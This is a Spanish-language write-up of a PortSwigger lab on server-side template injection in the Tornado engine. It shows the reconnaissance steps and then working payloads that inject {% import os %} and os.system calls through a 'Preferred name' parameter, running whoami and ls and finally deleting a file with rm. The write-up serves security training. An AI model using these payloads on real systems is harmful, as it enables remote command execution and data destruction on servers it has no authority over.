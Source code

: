 ```yaml
---
title: SSTI Lab 2
date: 2024-11-22 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSTI
tags:
  - SSTI
  - Basic server-side template injection (code context)
image:
  path: /assets/img/SSTI-Lab-2/Portswigger.png
---
```


## Skills

- Basic server-side template injection (code context)

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` es `vulnerable` a un `Server Side Template Injection` debido a la forma insegura en que utiliza una `plantilla` de `Tornado`. Para resolver el laboratorio, hay que `revisar` la `documentación` de `Tornado` para descubrir cómo `ejecutar comandos` y luego `eliminar` el archivo `morale.txt` del `directorio` personal de `Carlos`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSTI-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` usando las credenciales `wiener:peter`

![](/assets/img/SSTI-Lab-2/image_2.png)

Al `loguearnos` vemos esto

![](/assets/img/SSTI-Lab-2/image_3.png)

Si nos metemos en cualquier `artículo` veremos que podemos `comentar`

![](/assets/img/SSTI-Lab-2/image_4.png)

En la parte de `My account` cambiamos el `Preferred name`

![](/assets/img/SSTI-Lab-2/image_5.png)

El nombre en el `chat` también `cambia`

![](/assets/img/SSTI-Lab-2/image_6.png)

Si `capturamos` la `petición` de cambio de `nombre` en `Preferred name` vemos que se está `enviando` un `objeto`

![](/assets/img/SSTI-Lab-2/image_7.png)

Hacemos referencia a una `propiedad` del `objeto inexistente`

```
blog-post-author-display=user.NO_EXISTE&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```

Si nos dirigimos a la parte de las `publicaciones` obtendremos un `error` mediante el cual podemos identificar el `template` que se está usando

![](/assets/img/SSTI-Lab-2/image_8.png)

Nos dirigimos a hacktricks [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), probamos los `payload` para esta `plantilla` y vemos que funciona

{% raw %}
```
blog-post-author-display={{7*7}}&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

![](/assets/img/SSTI-Lab-2/image_9.png)

Nos vamos a [https://www.tornadoweb.org/en/stable/guide/templates.html](https://www.tornadoweb.org/en/stable/guide/templates.html) y observamos que los objetos se cargan entre {% raw %} `{{ }}` {% endraw %}

![](/assets/img/SSTI-Lab-2/image_10.png)

`Enviamos` este `payload`

{% raw %}
```
blog-post-author-display=}}{% import os %}{{os.system('whoami')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

`Obtenemos` este `error`

![](/assets/img/SSTI-Lab-2/image_11.png)

Probamos este `payload` en el que hacemos referencia al `objeto user`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('ls')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

Vemos que se ha listado el archivo `morale.txt`

![](/assets/img/SSTI-Lab-2/image_12.png)

`Borramos` el archivo `morale.txt` y `resolvemos` el `laboratorio`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('rm morale.txt')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

